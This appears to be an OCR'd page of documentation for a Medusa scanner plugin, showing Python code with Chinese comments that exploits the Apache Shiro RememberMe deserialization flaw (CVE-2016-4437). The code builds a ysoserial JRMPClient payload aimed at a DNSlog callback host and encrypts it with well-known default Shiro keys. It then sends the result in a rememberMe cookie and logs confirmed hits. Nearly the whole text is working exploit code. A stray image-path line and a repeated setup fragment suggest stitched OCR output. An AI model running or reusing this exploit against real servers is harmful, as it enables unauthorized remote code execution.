 ```python
    AES_MODE = AES.MODE_CBC
    AES_IV = uuid.uuid4().bytes
    payload_url = url
    YsoserialPath=GetToolFilePath().Result()+"ysoserial.jar"
    Pool=ThreadPool()
    try:
        for key in CipherKey:
            DL = Dnslog()
            popen = subprocess.Popen(["java", "-jar", YsoserialPath, ExpClass, DL.dns_host()], stdout=subprocess.PIPE)
            file_body = PAD_FUNC((popen).stdout.read())
            Pool.Append(task,Pool=Pool,Url=url,file_body=file_body,key=key,AES_MODE=AES_MODE,AES_IV=AES_IV,payload_url=payload_url,DL=DL,proxies=proxies,Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid"))
        Pool.Start(20)#启动线程池
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorLog().Write("Plugin Name:"+_+" ThreadPool ",e)  # 调用写入类传入URL和错误插件名

def task(**kwargs):
    DL=kwargs.get("DL")
    payload_url=kwargs.get("payload_url")
    key=kwargs.get("key")
    url=kwargs.get("Url")
    try:
        encryptor = AES.new(base64.b64decode(key), kwargs.get("AES_MODE"), kwargs.get("AES_IV"))
        base64_ciphertext = base64.b64encode(kwargs.get("AES_IV") + encryptor.encrypt(kwargs.get("file_body")))
        cookies = {"jeesite.session.id": "3f8a61ec-27e2-425c-9724-f96ba0c1e512",
                   "rememberMe": base64_ciphertext.decode()}
        resp=requests.get(payload_url, cookies=cookies,  proxies=kwargs.get("proxies"), timeout=6, verify=False)
        time.sleep(3)
        if DL.result():
            Medusa = "{} 存在ShiroRememberMe反序列化命令执行漏洞(CVE-2016-4437)\r\n验证数据:\r\n漏洞位置:{}\r\n秘钥:{}\r\nHeaders请求头:{}\r\nDNSLOG请求值:{}\r\nDNSLOG数据:{}\r\n".format(
                url, payload_url, key, cookies, DL.dns_host(), DL.dns_text())
            _t = VulnerabilityInfo(Medusa)
            VulnerabilityDetails(_t.info, resp, **kwargs).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url), str(Medusa))  # 写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        ErrorLog().Write(e)  # 调用写入类传入URL和错误插件名
```

### medusa函数

```python
def medusa(**kwargs)->None:
    url=kwargs.get("Url")#获取传入的url参数
    Headers=kwargs.get("Headers")#获取传入的头文件
    proxies=kwargs.get("Proxies")#获取传入的代理参数
    ExpClass = "JRMPClient"
    CipherKey = ["kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag=="]
    BLOCK_SIZE = AES.block_size
    PAD_FUNC = lambda s: s + ((BLOCK_SIZE - len(s) % BLOCK_SIZE) * chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)).encode()
    AES_MODE = AES.MODE_CBC
    AES_IV = uuid.uuid4().bytes
    payload_url = url
    YsoserialPath=GetToolFilePath().Result()+"ysoserial.jar"
    Pool=ThreadPool()
```